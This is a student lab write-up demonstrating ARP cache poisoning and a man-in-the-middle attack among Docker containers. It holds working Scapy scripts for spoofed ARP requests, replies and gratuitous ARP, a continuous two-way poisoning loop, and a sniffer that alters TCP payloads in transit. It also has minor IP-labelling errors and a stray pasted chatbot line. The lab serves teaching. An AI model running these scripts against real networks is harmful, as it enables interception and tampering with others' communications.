# ARP Cache Poisoning Attack Demonstration

This notebook documents the process and outcomes of an ARP cache poisoning attack for educational purposes, showcasing how such an attack can be set up and verified within a controlled environment.

## Objective

To demonstrate an ARP cache poisoning attack, intercepting communications between two parties, Alice and Bob, with Mallory acting as the attacker.

## Task 1A

1. Use Scapy to craft an ARP poisoning packet.
2. Send the packet from Mallory to Alice to manipulate her ARP cache.
3. Verify the success of the attack by inspecting Alice's ARP cache.


**Task 1a: Pre-Attack ARP Table Status**

Before launching the ARP attack using a ARP poisoning packet, let's verify the current state of Alice's ARP table. As indicated by the absence of any ARP entries shown below, Alice's ARP table is currently empty.

**Explanation**: The ARP table is empty prior to the ARP attack, signifying that Alice's system has no cached ARP mappings for any devices on the network.



## Attack Execution

Below is the Python script run from Mallory's container to execute the ARP cache poisoning attack.


```python
from scapy.all import *

# Setting up addresses for Alice, Bob, and Mallory
alice_ip = "10.0.182.4"
alice_mac = "02:42:0a:00:b6:04"

bob_ip = "10.0.182.2"
mallory_mac = "02:42:0a:00:b6:03"

# Preparing the Ethernet frame to look like it's to Alice from Mallory
ethernet_frame = Ether(src=mallory_mac, dst=alice_mac)

# Creating an ARP request pretending Mallory is Bob
arp_request = ARP(hwsrc=mallory_mac, psrc=bob_ip, hwdst=alice_mac, pdst=alice_ip, op=1)

# Combining and sending the packet
packet = ethernet_frame / arp_request
sendp(packet, iface="eth0")

print("Sent ARP spoof to make Alice think Mallory is Bob.")
```

## Verifying the Attack

To verify if the ARP cache poisoning was successful, check Alice's ARP cache using the command below:

```
arp -n
```

**Screenshot from Alice's Terminal after running arp -n**




**Explanation:** The `arp -n` command on Alice's system revealed that the IP address 10.0.182.2, which belongs to Bob, is now associated with the MAC address 02:42:0a:00:b6:03, which is actually Mallory's. This misassociation is due to ARP cache poisoning, a technique that alters the ARP cache. As a result, Alice's computer is misled into sending data meant for Bob directly to Mallory.

**Was the attack successful? Explain how.** Yes, the attack was successful. This success is evidenced by the ARP cache on Alice's computer, where Bob's IP address (10.0.182.2) is incorrectly mapped to Mallory's MAC address (02:42:0a:00:b6:03). This faulty mapping ensures that any packets Alice sends to Bob will be intercepted by Mallory, effectively placing Mallory in the middle of their communication.

**Describe and explain your strategy to build the attack.** The strategy behind the attack was to send a spoofed ARP request from Mallory's machine, which falsely declared that Bob's IP address (10.0.182.2) was associated with Mallory's MAC address (02:42:0a:00:b6:03). By exploiting the ARP protocol's trust model, which does not verify the authenticity of ARP responses, Mallory was able to insert this false mapping into Alice's ARP cache, redirecting traffic meant for Bob to herself.

## Task 1B: Executing ARP Reply Attack

In Task 1B, we deploy an ARP reply attack from Mallory, aiming to insert a fabricated entry into Alice's ARP cache. This entry maps Bob’s IP to Mallory’s MAC address, diverting Bob-intended traffic to Mallory and setting up a man-in-the-middle situation.

**Difference from Task 1A**: Task 1B involves using a forged ARP *reply* to directly manipulate Alice's ARP cache, while Task 1A focuses on the initial observation and potential manipulation using an ARP *request*. Task 1B demonstrates the impact of direct ARP cache modification, even when Bob's IP address is or isn't already known to Alice's ARP cache, showcasing a more aggressive approach to ARP poisoning.

We firstly ping Alice from Bob



The ARP table on Alice shows that Bob's IP address (10.0.182.2) is correctly mapped to his actual MAC address (02:42:0a:00:b6:02), indicating a legitimate network communication between Alice and Bob.

## Attack Execution

Below is the Python script executed from Mallory's container to carry out the ARP reply attack, leading to the ARP cache poisoning on Alice's machine:


```python
from scapy.all import *

# IP and MAC addresses for Alice, Bob, and Mallory
alice_ip = "10.0.182.4"
alice_mac = "02:42:0a:00:b6:04"

bob_ip = "10.0.182.2"
bob_mac = "02:42:0a:00:b6:02"

mallory_mac = "02:42:0a:00:b6:03"
mallory_ip = "10.0.182.3"

# Constructing the Ethernet frame to target Alice from Mallory
ethernet_frame = Ether(src=mallory_mac, dst=alice_mac)

# Creating an ARP reply pretending that Mallory's MAC is associated with Bob's IP
arp_reply = ARP(hwsrc=mallory_mac, psrc=bob_ip, hwdst=alice_mac, pdst=alice_ip, op=2)

# Combining the Ethernet and ARP layers
packet = ethernet_frame / arp_reply

# Sending the packet on the network interface, typically "eth0"
sendp(packet, iface="eth0")

print("ARP reply sent to Alice, associating Bob's IP with Mallory's MAC.")
```



After the attack, Alice's ARP table incorrectly maps Bob's IP address (10.0.182.2) to Mallory's MAC address (02:42:0a:00:b6:03), indicating a successful ARP spoofing by Mallory.


**Was the attack successful? Explain how. (Both scenarios)**

In Scenario 1, Bob's IP was pre-existing in Alice's ARP cache, making the attack successful. Mallory's spoofed ARP reply packet was able to modify Alice's ARP cache by replacing the legitimate MAC address for Bob's IP with Mallory's MAC address. 

In Scenario 2, since Bob's IP was not in Alice's ARP cache initially and the cache was empty, Mallory's spoofed ARP packet had no effect. The ARP table remained unchanged, showing that without a pre-existing entry, the spoofed ARP reply does not populate the cache.

**Difference between scenario 1 and 2**

The key difference between the scenarios is the pre-existence of Bob's IP in Alice's ARP cache. Scenario 1 demonstrates the ARP protocol's vulnerability to spoofed replies that overwrite existing entries, while Scenario 2 reveals that spoofed ARP replies cannot introduce new entries into an empty cache, highlighting a limitation in how ARP spoofing affects ARP tables without prior entries.

## Task 1.C: Gratuitous ARP Attack

In this task, we demonstrate the use of a gratuitous ARP message to manipulate the ARP cache of network participants, specifically targeting Alice's machine to intercept communications intended for Bob

The objective is to construct and send a gratuitous ARP packet from Mallory with the aim of mapping Bob's IP address to Mallory's MAC address in Alice's ARP cache.

A gratuitous ARP is a special type of ARP message used to update an ARP cache without a prior request. This task involves crafting such a message to alter ARP cache entries, demonstrating a potential vulnerability in network communication.

## Attack Execution

Below is the Python script run from Mallory's container to execute the gratuitous ARP attack.


```python
from scapy.all import *

# Set Bob's IP as both source and destination IP in the ARP packet
ip_address = "10.0.61.2"  # Bob's IP Address

# Mallory's MAC Address (As found from the previous task)
mac_address = "02:42:0a:00:3d:04"

# Construct the Gratuitous ARP packet
arp_packet = ARP(op=2, psrc=ip_address, hwsrc=mac_address, pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff")

# Wrap the ARP packet in an Ethernet frame to set the Ethernet destination to broadcast MAC
ethernet_frame = Ether(dst="ff:ff:ff:ff:ff:ff", src=mac_address) / arp_packet

# Send the packet on the network
sendp(ethernet_frame)
```

## Verifying the Attack

To verify if the ARP cache poisoning was successful, check Alice's ARP cache using the command below:

```
arp -a
```

Sure, let's refine the explanation with technical terms, yet keep it accessible and straightforward, and clearly outline the two scenarios without the final thoughts section:

---

## Summary of the Gratuitous ARP Attack

### Attack Outcome

**Screenshot from Alice's Terminal:**


The screenshot shows the ARP cache on Alice's machine after the attack. It reveals that both Bob and Mallory are associated with the same MAC address in Alice's ARP cache, indicating the successful execution of the gratuitous ARP attack.

### Was the Attack Successful?

Yes, the gratuitous ARP attack was successful:

- Alice's computer was misled into associating Bob's IP address with Mallory's MAC address due to the gratuitous ARP packet sent by Mallory. As a result, any communication Alice intends for Bob is now redirected to Mallory.

### Detailed Breakdown of Scenarios

**Scenario 1: Bob's Address in Alice's Cache Before the Attack**
- In this situation, Alice's ARP cache already contains an entry for Bob. The gratuitous ARP packet updates this entry to Mallory's MAC address. Therefore, communications from Alice to Bob are redirected to Mallory, making the attack successful.

**Scenario 2: Bob's Address Not in Alice's Cache Before the Attack**
- If Bob's IP address wasn't already in Alice's ARP cache, sending the gratuitous ARP packet wouldn't directly affect Alice's ARP cache if it previously had no entry for Bob. In this case, the ARP cache would remain unchanged until Alice needs to communicate with Bob and seeks out his MAC address. This illustrates a limitation where the gratuitous ARP attack's effectiveness is based on the target IP already being present in the victim's ARP cache.


___

## Task 2: 


### Step 1

First, Host Mallory conducts an ARP cache poisoning attack on both Alice and Bob, such that in Alice’s ARP cache, Blice’s IP address maps to Mallory’s MAC address, and in Bob’s ARP cache, Alice’s IP address also maps to Mallory’s MAC address. After this step, packets sent between Alice and Bob will all be sent to Mallory. We will use the ARP cache poisoning attack from Task 1 to achieve this goal.


```python
from scapy.all import *
import time

def arp_poison(target_ip, target_mac, spoof_ip, spoof_mac):
    # Creating the Ethernet frame to look like it's from spoof_mac to target_mac
    ethernet_frame = Ether(src=spoof_mac, dst=target_mac)
    # Creating an ARP request pretending spoof_ip is at spoof_mac
    arp_request = ARP(hwsrc=spoof_mac, psrc=spoof_ip, hwdst=target_mac, pdst=target_ip, op=2)  # ARP reply
    # Combining and sending the packet
    packet = ethernet_frame / arp_request
    sendp(packet, iface="eth0", verbose=False)
    print(f"Sent ARP reply: {spoof_ip} is at {spoof_mac} to {target_ip}")

alice_ip = "10.0.182.4"
alice_mac = "02:42:0a:00:b6:04"

bob_ip = "10.0.182.2"
bob_mac = "02:42:0a:00:b6:02"

mallory_mac = "02:42:0a:00:b6:03"

while True:
    # Poison Alice's ARP cache to make her think Mallory is Bob
    arp_poison(alice_ip, alice_mac, bob_ip, mallory_mac)
    # Poison Bob's ARP cache to make him think Mallory is Alice
    arp_poison(bob_ip, bob_mac, alice_ip, mallory_mac)
    time.sleep(5)  # Sleep for 5 seconds before sending the next set of ARP packets

```

### ARP Cache Poisoning Attack Results

After executing our ARP cache poisoning script, we observed changes in the ARP tables on both Bob's and Alice's machines. Below, we provide a brief explanation of the terminal outputs from each host, followed by the screenshots capturing these outputs.

**Bob's Terminal Output:**
  

- **Explanation**: This output shows Bob's ARP table now incorrectly lists Alice's IP address (10.0.182.4) as being associated with Mallory's MAC address (02:42:0a:00:b6:03). This indicates that our ARP spoofing attempt to redirect traffic intended for Alice to Mallory was successful on Bob's machine.

**Alice's Terminal Output:**
  
  
- **Explanation**: Similarly, Alice's ARP table now mistakenly associates Bob's IP address (10.0.182.2) with Mallory's MAC address (02:42:0a:00:b6:03), confirming the ARP cache poisoning was effective on Alice's machine as well, rerouting her intended traffic for Bob to Mallory.


### Task 2.A Step 2: Testing Communication with IP Forwarding Disabled

After successfully conducting the ARP cache poisoning attack, we proceeded to test direct communication between Alice and Bob via ping commands, with IP forwarding disabled on Mallory. This setup aims to observe the effects of ARP cache poisoning in isolating Alice and Bob's communication through Mallory, who, without IP forwarding, should not relay any packets between them.

**Instructions Executed**:
1. Confirmed IP forwarding was disabled on Mallory to prevent packet relaying.
2. Alice attempted to ping Bob, and vice versa, to test direct communication.

**Expected Outcome**:
With Mallory's IP forwarding disabled, the ping packets from Alice to Bob and Bob to Alice should not reach their destinations, illustrating the interception effect of ARP poisoning without packet forwarding.

We run the following command on Mallory's terminal

```
sysctl net.ipv4.ip_forward=0
```

**Mallory's Terminal Output:**
  
    
As we can see, the poisoning is continously being done every 5 seconds  

Now, we ping Bob from Alice

**Alice's Ping**
    
    
We can see that the packet is sent out from Alice

**Bob's Terminal**
    
    
The output from Alice's ping attempt to Bob reveals that the packets are not reaching Bob's system. This occurrence is a direct consequence of the successful ARP cache poisoning attack, where Mallory redirected the traffic intended for Bob to her own system, intercepting the communication between Alice and Bob.

### Task 2.B: Step 3 (Turn on IP forwarding)

Now we turn on the IP forwarding on Host Mallory, so it will forward the packets between Alice and Bob. Please run the following command and repeat Step 2.

```
sysctl net.ipv4.ip_forward=1
```

Note: The script for poisoning is still running meaning that both Alice and Bob's ARP tables are still poisoned

Now, we ping Bob from Alice again with forwarding on this time

**Alice's Ping**
    
    
We can see that the packet is sent out from Alice

**Bob's Terminal**
    
    
The output from Alice's ping attempt to Bob reveals that the packets are reaching Bob's system. 

With IP forwarding enabled on Mallory, the intercepted packets between Alice and Bob are relayed through Mallory's system despite the ARP cache poisoning attack. Although Alice and Bob's ARP tables still contain falsified MAC address mappings, enabling IP forwarding allows Mallory to act as a router, forwarding packets between Alice and Bob.

### Task 2.C: Step 4 (Launch the MITM attack)

In this task, Mallory executes a Man-In-The-Middle (MITM) attack to intercept and alter netcat communication between Alice and Bob, replacing occurrences of their first name in messages with a sequence of 'A's, while maintaining IP forwarding control to manage the flow of modified data.

Note: The docker containers were restarted, so the IP's changed from the earlier IP's used

Initially, we ensure the ARP tables remain untainted and authentic by pinging Alice from Bob.

- On Host Bob, initiate a netcat listener with the command: `nc -nlvp 9090`.
- On Host Alice, establish a connection to Bob by executing: `nc 10.0.227.4 9090`, where `10.0.227.4` is Alice's designated IP address.

**Alice's Terminal:**


Alice sends the message 'testing'.

**Bob's Terminal:**


Bob, listening on port 9090, receives the message 'testing'.

Next, we disable IP forwarding on Mallory, followed by executing a script to poison the ARP caches of both Alice and Bob.


```python
from scapy.all import *
import time

# Updated IP and MAC addresses
A_IP = "10.0.227.2"
B_IP = "10.0.227.4"
M_IP = "10.0.227.3"

A_MAC = "02:42:0a:00:e3:02"
B_MAC = "02:42:0a:00:e3:04"
M_MAC = "02:42:0a:00:e3:03"

def arp_poison(target_ip, target_mac, spoof_ip, spoof_mac):
    # Creating the Ethernet frame to look like it's from spoof_mac to target_mac
    ethernet_frame = Ether(src=spoof_mac, dst=target_mac)
    # Creating an ARP request pretending spoof_ip is at spoof_mac
    arp_request = ARP(hwsrc=spoof_mac, psrc=spoof_ip, hwdst=target_mac, pdst=target_ip, op=2)  # ARP reply
    # Combining and sending the packet
    packet = ethernet_frame / arp_request
    sendp(packet, iface="eth0", verbose=False)
    print(f"Sent ARP reply: {spoof_ip} is at {spoof_mac} to {target_ip}")

while True:
    # Poison Alice's ARP cache to make her think Mallory is Bob
    arp_poison(A_IP, A_MAC, B_IP, M_MAC)
    # Poison Bob's ARP cache to make him think Mallory is Alice
    arp_poison(B_IP, B_MAC, A_IP, M_MAC)
    time.sleep(5)  # Sleep for 5 seconds before sending the next set of ARP packets

```

We proceed to execute the script to initiate the Man-In-The-Middle (MITM) attack.

This script is designed to intercept and modify TCP packets between two hosts—Alice and Bob—using Scapy, a powerful Python-based tool for network packet manipulation and sniffing. Here's a breakdown of its functionality and the underlying logic:

1. **Bidirectional Traffic Forwarding**: All TCP packets exchanged between Alice and Bob are captured and forwarded. This ensures the uninterrupted flow of communication, preserving the normal operation of their network interaction, although they are passing through Mallory.

2. **Selective Content Alteration**: Within this flow, the script scrutinizes packets from Alice to Bob for the presence of "Yaseen". Only these selected packets undergo modification, where "Yaseen" is replaced with a sequence of 'A's equal in length. This specific change is made to ensure the altered packets maintain their original size, preserving the TCP sequence and avoiding potential disruption of the session.

This approach allows Mallory to precisely control the modifications made to the communication between Alice and Bob, inserting or altering information in a way that's virtually undetectable, thus showcasing the stealth and specificity possible in network-level attacks.


```python
#!/usr/bin/env python3
from scapy.all import *


A_IP = "10.0.227.2"
B_IP = "10.0.227.4"
M_IP = "10.0.227.3"

A_MAC = "02:42:0a:00:e3:02"
B_MAC = "02:42:0a:00:e3:04"
M_MAC = "02:42:0a:00:e3:03"


def spoof_pkt(pkt):
    # if packet is coming from A to B
    if  pkt[IP].dst == B_IP and pkt[IP].src == A_IP and pkt[TCP].payload:
        
        
        newpkt = IP(bytes(pkt[IP]))
        
        del(newpkt.chksum) #remove checksum
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        
        # we check if the phrase Yaseen is in the packet
        # if it exists, we replace it with AAAAAA, otherwise, we forward the packet normally
        
        if b'Yaseen' in pkt[TCP].payload.load:
            newdata = pkt[TCP].payload.load.replace(b'Yaseen', b'A'*len('Yaseen'))
            newpkt = newpkt/newdata
            send(newpkt)
        else:
            send(newpkt/pkt[TCP].payload.load)
    
    #else if packet is comfing from B to A,forward it normally
    elif pkt[IP].dst == A_IP and pkt[IP].src == B_IP:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt)

# filter the packets that are not sent by the attacker, either from Bob to Alice or Alice to Bob (TCP only)
f = f"(ip and tcp) and ((src host {A_IP} and dst host {B_IP}) or (src host {B_IP} and dst host {A_IP})) and not (src host {M_IP} or dst host {M_IP}) and not ether src {M_MAC} and not arp and not icmp"
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

**Alice's Terminal:**


Alice sends the message containing 'Yaseen'.

**Bob's Terminal:**


While Bob is listening on port 9090, he receives the message as 'AAAAAA', indicating the successful interception and alteration by the MITM attack, which changed 'Yaseen' to 'AAAAAA'.

During the MITM attack, messages from Alice containing 'Yaseen' were intercepted and altered to 'AAAAAA' before reaching Bob, demonstrating the attacker's ability to modify data in transit. Bob, unaware of the interception, received the altered messages as if they were sent directly from Alice.


```python

```
